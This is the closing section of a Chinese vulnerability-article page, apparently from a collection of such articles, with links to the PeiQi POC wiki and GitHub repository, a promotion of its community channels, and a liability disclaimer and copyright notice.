



 ****二:  关于文库🦉****

 **在线文库：**

**http://wiki.peiqi.tech**

 **Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**


最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**


**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
